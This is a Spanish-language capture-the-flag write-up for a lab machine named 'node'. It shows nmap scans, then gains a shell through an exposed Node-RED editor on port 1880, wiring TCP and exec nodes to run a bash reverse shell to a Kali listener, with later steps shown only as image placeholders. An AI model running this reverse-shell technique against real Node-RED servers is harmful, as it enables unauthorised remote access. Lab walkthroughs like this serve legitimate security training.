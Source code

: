 # Máquina node

### Reconocimiento de la Ip de la máquina víctima

![alt text](image.png)

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.164

![alt text](image-1.png)


### Servicios y versiones 

sudo nmap -sVC --min-rate 6000 -p22,80,1880 -vvv -Pn 192.168.42.163

![alt text](image-2.png)

Entramos en la web por el puerto 1880

![alt text](image-3.png)

### Explotación


en kali:

colocamos puertos en escucha

nc -lvnp 443 -> nodo tcp in

nc -lvnp 4444 -> nodo tcp out

en node-red:

nodo tcp in:

Type: connect to

port: 443

at host 192.168.42.133

en exec:

en command:

bash -c "bash -i >& /dev/tcp/IP-KALI/4444 0>&1"

en nodo tcp out:

Type: Reply to TCP

luego seleccionamos todo:

tcp in ------> exec ------> tcp out

(tiene que aparecer una sombra naranja)

y le damos clic en Deploy, tiene que salirme el mensaje Deplou suscessfully

le damos enter en la shell donde tenemos el puerto de escucha 443 y listo tenemos conexión en el puerto 4444

![alt text](image-4.png)

![alt text](image-5.png)

![alt text](image-6.png)

![alt text](image-7.png)

![alt text](image-8.png)

![alt text](image-9.png)

![alt text](image-10.png)

### Escalar privilegios

![alt text](image-11.png)

### user.txt

![alt text](image-12.png)

### root.txt

![alt text](image-13.png)

